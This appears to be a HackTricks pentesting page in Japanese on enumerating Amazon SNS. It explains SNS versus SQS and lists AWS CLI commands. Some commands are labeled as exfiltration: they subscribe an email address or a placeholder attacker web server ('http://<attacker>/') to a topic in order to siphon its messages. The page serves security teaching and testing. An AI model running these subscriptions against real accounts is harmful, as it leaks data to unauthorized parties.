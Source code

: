 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) は **完全に管理されたメッセージングサービス** として説明されています。これは **アプリケーション間** (A2A) と **アプリケーションから人** (A2P) の通信タイプの両方をサポートしています。

A2A通信の主な機能には **公開/購読 (pub/sub) メカニズム** が含まれます。これらのメカニズムは **トピック** を導入し、高スループットの **プッシュベースの多対多メッセージング** を可能にするために重要です。この機能は、分散システム、マイクロサービス、およびイベント駆動型サーバーレスアーキテクチャを含むシナリオで非常に有利です。これらのトピックを活用することで、発行システムは **広範囲の購読システム** にメッセージを効率的に配信し、ファンアウトメッセージングパターンを促進できます。

### **Difference with SQS**

**SQS** は **キューに基づく** サービスであり、ポイントツーポイント通信を可能にし、メッセージが **単一の消費者** によって処理されることを保証します。これは **少なくとも1回の配信** を提供し、標準およびFIFOキューをサポートし、再試行や遅延処理のためのメッセージ保持を許可します。\
一方、**SNS** は **公開/購読に基づくサービス** であり、メッセージを **複数の購読者** に同時にブロードキャストすることによって **1対多** の通信を可能にします。これは **メール、SMS、Lambda関数、HTTP/HTTPS** などのさまざまな購読エンドポイントをサポートし、ターゲットメッセージ配信のためのフィルタリングメカニズムを提供します。\
両方のサービスは分散システム内のコンポーネント間のデカップリングを可能にしますが、SQSはキュー通信に焦点を当て、SNSはイベント駆動型のファンアウト通信パターンを強調しています。

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> **トピックがFIFOタイプの場合**、**SQS**プロトコルを使用するサブスクライバーのみが使用できます（HTTPまたはHTTPSは使用できません）。
>
> また、`--topic-arn`にリージョンが含まれていても、**`--region`**で正しいリージョンを指定することを確認してください。そうしないと、アクセスがないことを示すようなエラーが表示されますが、問題はリージョンです。

#### 認証されていないアクセス

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md
{{#endref}}

#### 権限昇格

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc.md
{{#endref}}

#### ポストエクスプロイト

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation.md
{{#endref}}

#### 永続性

{{#ref}}
../aws-persistence/aws-sns-persistence.md
{{#endref}}

## 参考文献

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
